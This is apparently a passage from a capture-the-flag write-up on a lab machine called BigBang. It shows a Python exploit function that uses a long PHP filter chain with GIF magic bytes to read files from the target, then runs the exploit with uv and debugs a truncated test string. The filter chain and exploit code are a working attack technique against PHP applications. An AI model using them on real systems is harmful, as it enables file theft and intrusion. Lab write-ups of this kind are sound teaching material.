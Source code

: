 ```
        gif_chain = "php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource="
        response = self.send(f"{gif_chain}{path}")
        url = response.json()["response"]
        if not url.startswith("http"):
            return b""
        content = self.session.get(url).content
        return content[6:]

```

It’s using the GIF `wrapwrap` chain to put the GIF magic bytes on the front, and then removing the first six bytes in the response. I’m using the `ten` framework’s `tf.qs.encode` since it’s already imported, but `urllib.parse.quote_plus` would do the same thing.

To run this [with uv](https://www.youtube.com/watch?v=G36QXtBXKBQ), I’ll need to add `ten` and `pwntools` to the metadata:

```

oxdf@hacky$ uv add --script exploit.py ten pwntools
Updated `exploit.py`

```

When I run this, it fails:

```

oxdf@hacky$ uv run exploit.py http://blog.bigbang.htb id
Installed 44 packages in 248ms
[-] Remote.download did not return the test string
--------------------
Expected test string: b'9rzfYbh2F2EnQ9pIaQE5gfFUEf2SN0cFIqfGBri52hlWAKXE0y'
Got: b'9rzfYbh2F2EnQ9pIaQE5gfFUEf2SN0cFIqfGBri52hlWAKXE'
--------------------
[-] If your code works fine, it means that the data:// wrapper does not work

```

It’s doing a test to make sure it can pass in and read data, and the end of the resulting string is truncated! That is almost certainly due to my adding the GIF magic. I’ll update this check to allow for truncation in the result (original left in commented out):
